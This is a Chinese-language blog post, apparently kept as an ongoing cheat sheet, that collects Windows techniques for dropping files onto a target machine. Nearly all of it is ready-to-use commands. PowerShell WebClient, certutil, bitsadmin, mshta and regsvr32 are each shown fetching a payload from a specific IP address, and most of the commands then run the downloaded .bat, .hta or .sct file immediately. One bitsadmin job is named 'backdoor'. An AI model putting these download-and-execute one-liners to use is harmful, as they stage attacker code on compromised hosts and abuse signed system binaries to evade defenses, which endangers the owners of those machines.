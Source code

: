 ```yaml
---
layout: post
title: 文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*
>
> 

### 0x01 PoweShell

win2003，winXP不支持

踩坑：

- Powershell 版本大于2.0时 在连接Powershell命令时 **空格** 替换了 ;
- Powershell 版本低于或等于2.0时 `DownloadFile()`函数不支持自定义路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'test.bat');start-process 'test.bat'

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'c:\1.bat');start-process 'c:\1.bat'


```powershell
$client = new-object System.Net.WebClient;$client.DownloadFile('https://avatars0.githubusercontent.com/u/19944759?s=150&v=4', 'C:\1.jpg')
```



### 0x02 Certutil

path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

```cmd
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren test.txt test.bat&test.bat
certutil -urlcache -split -f http://47.92.194.173/test.txt c:\a.bat&c:\a.bat
```

有的时候certutil不支持指定下载的目录，为了兼容直接在当前目录操作



### 0x03 bitsadmin

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败会以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  >  of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

- 啊





Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe



```cmd
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe
```

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

- ```cmd
  bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1
  ```

bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

```cmd
bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat
```



DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用



### 0x03 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll